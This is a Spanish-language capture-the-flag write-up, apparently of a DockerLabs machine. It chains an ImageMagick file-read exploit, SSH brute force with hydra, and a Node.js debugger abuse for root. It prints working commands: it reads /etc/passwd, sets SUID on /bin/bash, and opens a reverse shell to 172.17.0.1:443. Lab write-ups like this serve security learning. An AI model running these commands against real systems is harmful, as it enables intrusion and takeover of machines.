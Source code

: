 nmap:  443, 80, 22

![image](https://github.com/user-attachments/assets/49f75831-c32a-4554-9753-b7c610099ee0)


---
entramos a la pagina principal y nos da esto:

![image](https://github.com/user-attachments/assets/7e0cb7f2-b4e8-47a6-8a08-10226e7e6d2c)


hay una subida de imagen o pdf y encontré este exploit que roba metadatos: https://github.com/voidz0r/CVE-2022-44268

seguimos los pasos y subimos la imagen 1200x1200

![image](https://github.com/user-attachments/assets/1fa9aaf9-cfe5-4db4-b69d-23a73cd077bf)


después guardamos la foto desde la pagina subida y al guardarla nos dará muchos números.

![image](https://github.com/user-attachments/assets/a2472f55-bf63-499f-a542-2beb191ae383)


lanzamos este comando con el numero dentro de los ""

>python3 -c 'print(bytes.fromhex("con el numero que nos dio"))'

y nos dará el listado de "/etc/passwd" con un usuario llamado "lenam"

hacemos fuerza bruta

     - hydra -l lenam -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2

nos da la contraseña: loverboy

![image](https://github.com/user-attachments/assets/f72bfc59-fd0a-4045-8ba8-c2d7e9a9a7d5)

dentro al hacer sudo -l aparece: "kill"

![image](https://github.com/user-attachments/assets/e5a0d4e9-ac1b-4ca7-a0b2-cd5a2b7a87d3)

al hacer un "ps aux" vemos que en el PID 53 se ejecuta un "index.js"

![image](https://github.com/user-attachments/assets/c6cfc13b-ad4f-4d5c-8cfe-179beb50b297)


buscamos en: https://book.hacktricks.xyz/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse

y vemos que podemos escalar con: kill -s SIGUSR1 nodejs-ps

![image](https://github.com/user-attachments/assets/16c17a4c-28fa-4d27-9154-40b98c1d9c6e)


que quedaría:  sudo kill -s SIGUSR1 49 (o según se ejecute en este caso 49)
ahora si ejecutamos: netstat -atunop vemos que se reinicia ya hora esta habitado el puerto 9229
![[nuevopuerto.png]]

nos conectamos por la IP y puerto que da:  node inspect 127.0.0.1:9229

dentro del debug ejecutamos: 

    - exec("process.mainModule.require('child_process').exec('chmod u+s /bin/bash')")

ahora salimos y ejecutamos el bash -p

![[dockerlabs/dificil/debugme/root.png]]

pero no somos root absoluto, modificamos el código para una reverse shell

    - exec("process.mainModule.require('child_process').exec('bash -c \"/bin/bash -i >& /dev/tcp/172.17.0.1/443 0>&1\"')")

![[root absolute.png]]

y somos root!
